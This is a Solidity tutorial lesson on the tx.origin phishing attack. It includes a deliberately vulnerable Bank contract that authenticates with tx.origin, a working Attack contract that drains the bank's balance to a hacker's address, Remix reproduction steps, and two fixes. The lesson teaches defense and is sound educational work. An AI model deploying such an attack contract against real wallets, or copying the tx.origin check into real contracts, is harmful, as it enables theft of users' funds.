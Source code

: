 ```yaml
---
title: S12. tx.origin Phishing Attack
tags:
  - solidity
  - security
  - tx.origin
---
```


# WTF Solidity S12. tx.origin Phishing Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will discuss the `tx.origin` phishing attack and prevention methods in smart contracts.

## `tx.origin` Phishing Attack

When I was in middle school, I loved playing games. However, the game developers implemented an anti-addiction system that only allowed players who were over 18 years old, as verified by their ID card number, to play without restrictions. So, what did I do? I used my parent's ID card number to bypass the system and successfully circumvented the anti-addiction measures. This example is similar to the `tx.origin` phishing attack.

In Solidity, `tx.origin` is used to obtain the original address that initiated the transaction. It is similar to `msg.sender`. Let's differentiate between them with an example.

If User A calls Contract B, and then Contract B calls Contract C, from the perspective of Contract C, `msg.sender` is Contract B, and `tx.origin` is User A. If you are not familiar with the `call` mechanism, you can read [WTF Solidity 22: Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/22_Call_en/readme.md).

![](./img/S12_1.jpg)

Therefore, if a bank contract uses `tx.origin` for identity authentication, a hacker can deploy an attack contract and then induce the owner of the bank contract to call it. Even if `msg.sender` is the address of the attack contract, `tx.origin` will be the address of the bank contract owner, allowing the transfer to succeed.

## Vulnerable Contract Example

### Bank Contract

Let's take a look at the bank contract. It is very simple and includes an `owner` state variable to record the contract owner. It has a constructor and a `public` function:

- Constructor: Assigns a value to the `owner` variable when the contract is created.
- `transfer()`: This function takes two parameters, `_to` and `_amount`. It first checks `tx.origin == owner` and then transfers `_amount` ETH to `_to`. **Note: This function is vulnerable to phishing attacks!**

```solidity
contract Bank {
    address public owner; // Records the owner of the contract

    // Assigns the value to the owner variable when the contract is created
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // Check the message origin !!! There may be phishing risks if the owner is induced to call this function!
        require(tx.origin == owner, "Not owner");
        // Transfer ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Attack Contract

Next is the attack contract, which has a simple attack logic. It constructs an `attack()` function to perform phishing and transfer the balance of the bank contract owner to the hacker. It has two state variables, `hacker` and `bank`, to record the hacker's address and the address of the bank contract to be attacked.

It includes `2` functions:

- Constructor: Initializes the `bank` contract address.
- `attack()`: The attack function that requires the `owner` address of the bank contract to call. When the `owner` calls the attack contract, the attack contract calls the `transfer()` function of the bank contract. After confirming `tx.origin == owner`, it transfers the entire balance from the bank contract to the hacker's address.

```solidity
contract Attack {
    // Beneficiary address
    address payable public hacker;
    // Bank contract address
    Bank bank;

    constructor(Bank _bank) {
        // Forces the conversion of the address type _bank to the Bank type
        bank = Bank(_bank);
        // Assigns the beneficiary address to the deployer's address
        hacker = payable(msg.sender);
    }

    function attack() public {
        // Induces the owner of the Bank contract to call, transferring all the balance to the hacker's address
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## Reproduce on `Remix`

**1.** Set the `value` to 10ETH, then deploy the `Bank` contract, and the owner address `owner` is initialized as the deployed contract address.

![](./img/S12-2.jpg)

**2.** Switch to another wallet as the hacker wallet, fill in the address of the bank contract to be attacked, and then deploy the `Attack` contract. The hacker address `hacker` is initialized as the deployed contract address.

![](./img/S12-3.jpg)

**3.** Switch back to the `owner` address. At this point, we were induced to call the `attack()` function of the `Attack` contract. As a result, the balance of the `Bank` contract is emptied, and the hacker's address gains 10ETH.

![](./img/S12-4.jpg)

## Prevention Methods

Currently, there are two main methods to prevent potential `tx.origin` phishing attacks.

### 1. Use `msg.sender` instead of `tx.origin`

`msg.sender` can obtain the address of the direct caller of the current contract. By verifying `msg.sender`, the entire calling process can be protected from external attack contracts.

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. Verify `tx.origin == msg.sender`

If you must use `tx.origin`, you can also verify that `tx.origin` is equal to `msg.sender`. This can prevent external contract calls from interfering with the current contract. However, the downside is that other contracts will not be able to call this function.

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## Summary

In this lesson, we discussed the `tx.origin` phishing attack in smart contracts. There are two methods to prevent it: using `msg.sender` instead of `tx.origin`, or checking `tx.origin == msg.sender`. It is recommended to use the first method, as the latter will reject all calls from other contracts.

